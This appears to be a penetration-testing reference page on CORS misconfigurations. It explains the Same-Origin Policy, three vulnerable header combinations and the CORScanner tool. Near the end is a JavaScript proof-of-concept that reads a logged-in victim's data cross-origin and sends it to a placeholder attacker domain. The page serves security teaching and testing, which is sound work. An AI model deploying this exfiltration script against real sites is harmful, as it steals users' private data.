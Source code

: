 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# 🛠️ CORS (Cross-Origin Resource Sharing)

## Theory

Sometimes browsers need to load resources from another origin other than their own. The Same-Origin Policy mechanism (SOP) restricts access to resources on other origins. 

> [!TIP]
> The same-origin is defined for two URLs that have the same protocol, port (if specified), and host.

To bypass this limitation, the JSON-P technique (in JavaScript) was introduced. To retrieve information from another origin, it uses the `<script>` tag (which is not blocked by the SOP). Unfortunately, this technique has some issues and lacks controls in some cases. Here we introduce CORS.

Cross-Origin Resource Sharing (CORS) is a header-based mechanism. It improves security and flexibility for cross-domain resource sharing. CORS is relatively new and therefore, not very well-known. As result, misconfigurations are common and bring security concerns. The main vulnerabilities lie in the overly permissive access to credentials from non-controlled domains.

### Misconfigurations

The exploitation will depend on the misconfiguration. The next image shows a path that can be followed:

![](assets/CORS.png)

#### Case 1

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: regex`

The origins are verified through a regex match.\
The misconfiguration types can be better understood with this table:

![](./assets/misconfigs.png)
<div class="caption">https://github.com/chenjj/CORScanner</div>

> [!WARNING]
> The configuration below is [impossible](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#requests\_with\_credentials):
>
> * `Access-Control-Allow-Credentials: true`
> * `Access-Control-Allow-Origin: *`

#### Case 2

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: null`

According to [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), browsers might send the value `null` in the `Origin` header in some unusual situations:

* Cross-site redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.

The value `null` when the server sends credentials is the worst-case scenario. It means any origin can request credentials without limitation.

#### Case 3

Misconfiguration:

* `Access-Control-Allow-Credentials: false`
* `Access-Control-Allow-Origin` is dynamically generated
* `Vary: Origin` is absent

In this case, it's possible to conduct a client-side poisoning.

Check [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)'s explanation for more information.&#x20;

## Practice

During a penetration test, exploiting CORS misconfigurations is difficult. The attacks may rely on manipulating a victim or even finding configuration issues on other domains (which can be out of scope).

However, it's possible to get a Proof-of-Concept using JavaScript by registring a domain (to abuse a CORS misconfiguration).

### Tool

The tool [CORScanner ](https://github.com/chenjj/CORScanner)is useful in finding misconfigurations. It relies on the table shown in the misconfiguration case 1.

```bash
python cors_scan.py -u $URL
```

> [!TIP]
> It is advised to use the verbose option `-v` to see the tests.

> [!WARNING]
> It is possible to customize the third parties origins in the file `origins.json`.

### Proof-of-Concept (PoC)

To steal sensitive information, the victim has to be logged in the vulnerable website. From there, if the victim is redirected to the attacker's website (containing the script below), the sensitive information will be retrieved by the attacker.

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable.domain/api/secret-data',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.domain/log?response='+this.responseText; 
};
```

## Resources

[https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

[https://www.jianjunchen.com/publication/an-empirical-study-of-cors/](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/)